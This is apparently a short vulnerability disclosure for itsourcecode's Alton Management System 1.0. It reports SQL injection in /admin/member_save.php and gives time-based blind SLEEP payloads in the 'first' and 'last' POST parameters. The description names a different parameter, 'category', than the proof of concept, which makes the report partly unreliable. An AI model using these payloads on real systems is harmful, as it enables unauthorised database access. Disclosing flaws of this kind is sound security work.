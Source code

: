 # Vendor

itsourcecode

# Product

Alton Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

Log in as an administrator user, access the "/admin/member_save.php" page, and pass in the category parameter. Due to lax filtering, this parameter can lead to SQL injection vulnerabilities.
<img width="1078" alt="image" src="https://github.com/user-attachments/assets/b24aea4e-41f2-49fa-98db-f3530ae978d9">

# Poc

```
Parameter: first (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: last=123&first=123' AND (SELECT 9651 FROM (SELECT(SLEEP(5)))LDVG) AND 'Zjoq'='Zjoq&contact=123&address=123

Parameter: last (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: last=123' AND (SELECT 9207 FROM (SELECT(SLEEP(5)))IyrR) AND 'YcaK'='YcaK&first=123&contact=123&address=123
```
